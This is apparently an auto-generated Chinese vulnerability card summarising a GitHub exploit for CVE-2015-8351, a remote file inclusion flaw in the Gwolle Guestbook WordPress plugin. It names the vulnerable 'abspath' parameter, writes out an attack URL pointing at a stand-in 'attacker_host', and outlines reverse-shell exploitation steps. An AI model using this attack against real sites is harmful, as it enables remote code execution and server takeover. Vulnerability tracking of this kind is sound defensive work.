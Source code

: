 ## CVE-2015-8351 - Gwolle Guestbook WordPress Plugin RFI

**漏洞编号:** CVE-2015-8351

**漏洞类型:** 远程文件包含 (RFI)

**影响应用:** Gwolle Guestbook WordPress Plugin

**危害等级:** 高危，可能导致远程代码执行和服务器完全控制

**影响版本:** < 1.5.4

**利用条件:** allow_url_include 需要启用或者可利用本地文件包含。

**POC 可用性:** 是

**投毒风险:** 5%

## 详情

该漏洞存在于 Gwolle Guestbook WordPress 插件 1.5.4 之前的版本中。攻击者可以利用 `abspath` 参数在 `frontend/captcha/ajaxresponse.php` 文件中包含远程文件，从而执行任意 PHP 代码。根据漏洞描述，如果 `allow_url_include` 启用，则可直接利用远程文件包含。即使 `allow_url_include` 未启用，也可以通过目录遍历序列利用本地文件包含。

**有效性:** 提供的 Python 脚本通过构造包含恶意 URL 的 `abspath` 参数来利用 RFI 漏洞。脚本尝试访问 `target_url/wp-content/plugins/gwolle-gb/frontend/captcha/ajaxresponse.php?abspath=http://attacker_host/`。如果目标服务器成功包含攻击者服务器上的文件，则意味着漏洞利用成功。脚本会尝试建立反向 shell, 如果成功收到shell, 漏洞利用成功

**投毒风险:**  代码本身相对简单，主要功能是发送包含恶意 `abspath` 参数的 HTTP 请求。 风险在于，攻击者可能在 `attacker_host` 指向的服务器上放置恶意 `wp-load.php` 文件。 脚本本身投毒风险较低，主要在于利用过程中。 5%的可能性在于提供的README.md文件中,包含了下载或者安装步骤,可能引导用户下载安装带有后门的wp-load.php，但是可能性比较小。

**利用方式:**
1.  攻击者搭建一个 Web 服务器，并将包含恶意代码的 `wp-load.php` 文件放置在其文档根目录下。
2.  攻击者运行提供的 Python 脚本，指定目标 WordPress 网站的 URL、攻击者服务器的 IP 地址和监听端口。
3.  脚本构造一个包含恶意 URL 的 HTTP GET 请求，并将请求发送到目标服务器的 `frontend/captcha/ajaxresponse.php` 文件。
4.  如果目标服务器成功包含攻击者服务器上的 `wp-load.php` 文件，则恶意代码将在目标服务器上执行。如果成功, 攻击者在本地监听端口就可以获取到shell.

**项目地址:** [G4sp4rCS/exploit-CVE-2015-8351](https://github.com/G4sp4rCS/exploit-CVE-2015-8351)

**漏洞详情:** [CVE-2015-8351](https://nvd.nist.gov/vuln/detail/CVE-2015-8351)